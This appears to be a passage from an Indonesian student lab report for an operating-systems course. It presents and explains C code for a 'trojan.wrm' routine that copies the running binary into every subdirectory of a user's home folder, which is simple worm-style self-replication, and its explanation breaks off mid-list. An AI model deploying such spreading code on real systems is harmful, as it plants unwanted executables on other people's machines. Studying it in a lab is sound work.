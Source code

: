 
c. Anak fitur kedua yang bernama trojan.wrm berfungsi untuk menyebarkan malware ini kedalam mesin korban dengan cara membuat salinan binary malware di setiap directory yang ada di home user.
```sh
void trojan_wrm() {
    const char *source = "/proc/self/exe";
    const char *runme_name = "runme";
    const char *target_base = "/home/riverz";

    DIR *dir = opendir(target_base);
    if (!dir) {
        perror("Gagal membuka direktori target");
        exit(1);
    }

    struct dirent *entry;
    char dest_path[1024];

    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        char folder_path[1024];
        snprintf(folder_path, sizeof(folder_path), "%s/%s", target_base, entry->d_name);

        struct stat st;
        if (stat(folder_path, &st) == -1 || !S_ISDIR(st.st_mode))
            continue;

        snprintf(dest_path, sizeof(dest_path), "%s/%s", folder_path, runme_name);

        FILE *src = fopen(source, "rb");
        FILE *dst = fopen(dest_path, "wb");

        if (!src || !dst) {
            perror("Gagal copy file runme");
            if (src) fclose(src);
            if (dst) fclose(dst);
            continue;
        }

        int ch;
        while ((ch = fgetc(src)) != EOF)
            fputc(ch, dst);

        fclose(src);
        fclose(dst);

        chmod(dest_path, 600);

        printf("Berhasil copy ke %s\n", dest_path);
    }

    closedir(dir);

    while (1) {
        sleep(5);
    }
}
```
- `const char *target_base = "/home/riverz";` Folder root tempat malware akan menyebar dan mencari seluruh subdirektori dalam /home/riverz.
- `struct dirent *entry;
char dest_path[1024];`